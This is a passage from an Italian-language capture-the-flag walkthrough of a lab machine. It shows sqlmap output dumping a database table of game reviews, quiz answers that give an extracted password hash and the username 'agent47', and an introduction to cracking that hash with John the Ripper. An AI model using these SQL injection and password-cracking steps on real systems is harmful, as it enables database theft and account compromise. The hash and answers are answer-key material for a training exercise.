 ```
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical ad deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalentto a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                        |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequl. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out ther, and a truly amazing offering across any system.                      |
+----+--------------------------------+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[06:57:53] [INFO] table 'db.post' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.24.247/dump/db/post.csv'
[06:57:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.24.247'

[*] ending @ 06:57:53 /2025-05-15/


```
Nella tabella degli utenti, qual è la password con hash?

```
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```

Qual era il nome utente associato alla password hash?

```
agent47
```

Come si chiamava l'altra tabella?

```
post
```

#### Cracking a password with JohnTheRipper

John the Ripper (JTR) è un cracker di password veloce, gratuito e open source. È preinstallato su tutte le macchine Kali Linux .

Useremo questo programma per decifrare l'hash ottenuto in precedenza. JohnTheRipper ha 15 anni e altri programmi come HashCat sono solo alcuni dei tanti programmi di cracking disponibili. 

Questo programma funziona prendendo una lista di parole, calcolandone l'hash con l'algoritmo specificato e confrontandolo con la password con hash. Se entrambe le password con hash sono identiche, significa che l'ha trovata. Non è possibile invertire un hash, quindi è necessario confrontarli.
